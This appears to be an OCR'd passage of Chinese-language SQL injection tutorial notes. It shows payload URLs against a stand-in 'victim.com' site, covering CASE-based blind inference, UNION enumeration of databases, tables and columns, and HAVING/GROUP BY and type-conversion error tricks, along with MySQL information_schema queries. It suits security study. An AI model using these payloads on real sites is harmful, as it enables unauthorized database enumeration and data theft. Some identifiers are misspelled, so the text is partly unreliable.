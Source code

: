(2)基于内容
利用case来判断结果(数值型)
http://www.victim.com/products.asp?id=12+(case when (system_user = ‘sa’ )then 0 else 1 end)

利用case来判断结果(字符型)
http://www.victim.com/products.asp?brand=ac’+char(108+(case when (sysem_user=’sa’)then 0 else 1 end))+’em



六．枚举数据库
(1)枚举数据库名
sql server(利用union提取数据，master数据库包含描述其他数据库的元数据，db_name()返回当前的数据库)
http://www.victim.com/products.asp?id=12 union select name,null,null from master..sysdatabases--

mysql
select schema_name from information_schema.schemata;


(2)枚举数据表名
sql server(利用union提取数据，sysobjects数据表包含描述当前数据库的数据表信息，xtype为’U’则为用户定义的数据表)
http://www.victim.com/products.asp?id=12 union select name,null,null from test..sysobjects where xtype=’U’--

mysql(除去不必要的数据表)
select table_schema,table_name from information_schema.tables where table_schema != ‘mysql’ and table_schema != ‘information_schema’ and table_schema!=’performance’

(3)枚举列名
sql server(syscolums数据表包含当前数据表的列信息)
http://www.victim.com/products.asp?id=12 union select name,null,null  from test..syscolums where id=(select id from test..sysobjects where name=’demo’)

mysql(去除不必要的表)
select table_schema,table_name,column_name from information_schema.columns where table_schema! =’mysql’ and table_schema!=’information_schema’ and table_schema!=’performance’

(4)枚举当前表
sql server
http://www.victim.com/shopproducts.aspx?catagory=bikes’ having ‘1’=’1

column ‘products.productid’ is invalid in the select list because it is not contained in an aggregate function and there is no GROUP BY clause(利用having错误获取数据库products的第一列productid)

http://www.victim.com/shopproducts.aspx?catagory=bikes’ group by productid having ‘1’=’1

column ‘products.name’ is invalid in the select list because it is not contained in either an aggregate function or the group up clause(获取数据库products的第二列name)

http://www.victim.com/shopproducts.aspx?catagory=bikes’ group by productid,name having ‘1’=’1

column ‘products.price’ is invalid in the select list because it is not contained in either an aggregate function or the group up clause(获取数据库products的第三列name)

http://www.victim.com/shopproducts.aspx?catagory=bikes’ and 1=0/name;--

syntax error converiting then navchar value ‘claud butler olympus d2’ to a column of data type int,(利用字符转化数值错误获取bikes行所对应字段name的值)

(5)枚举用户相关权限
mysql
select grantee,privilege_type,is_grantable from information_schema.user_pribileges;
